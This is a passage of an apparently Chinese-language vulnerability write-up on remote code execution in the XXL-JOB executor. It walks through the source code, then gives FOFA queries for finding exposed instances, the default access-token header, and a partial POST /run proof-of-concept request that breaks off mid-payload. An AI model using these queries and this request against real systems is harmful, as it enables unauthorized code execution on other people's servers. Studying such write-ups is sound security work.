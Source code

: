 继续跟进jobThread  
，如果无超时控制，直接执行任务。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4136w7o9Jvc086UGWg2XU5Gu2P6Hd8sZsiajiaVmDIIN1IbQwJyT8aV1CJBuBvGqQU8cXEflzgn94DKJHLyaC6Xw/640?wx_fmt=jpeg&from=appmsg "")  
  
跟进execute()  
。  
  
glueType.isScript()  
，检查任务类型是否为脚本类型（如   
GLUE_SHELL  
、  
GLUE_PYTHON   
等）。  
  
String cmd = glueType.getCmd();  
 获取脚本类型对应的执行命令，后续将执行的命令写入脚本文件。  
  
int exitValue = ScriptUtil.execToFile(cmd, scriptFileName, logFileName, scriptParams);  
 调用系统命令执行脚本文件，并将执行日志输出到指定日志文件并执行脚本文件。  
  
当攻击者构造恶意的执行命令，就会导致RCE  
漏洞。详情可见下文漏洞复现。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4136w7o9Jvc086UGWg2XU5Gu2P6Hd8sZOCuSIicibDnGJZFYsquEetTxhzsmoW1AeALjxgvWrMicViakDajo635xYA/640?wx_fmt=jpeg&from=appmsg "")  
  
## 0x04 漏洞复现  
  
fofa  
语句：  
```
"invalid request, HttpMethod not support" && port="9999"

或者

body="{\"code\":500,\"msg\":\"invalid request, HttpMethod not support.\"}" | fofax -fs 10000 -e>xxl-job.txt
```  
  
在抓取的请求头加上XXL-JOB-ACCESS-TOKEN: default_token  
。  
  
利用下面的请求POC  
可以进行DNSLog  
探测。  
```
POST /run HTTP/1.1
Host: x.x.x.x:9999
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
XXL-JOB-ACCESS-TOKEN: default_token
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Length: 378

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
```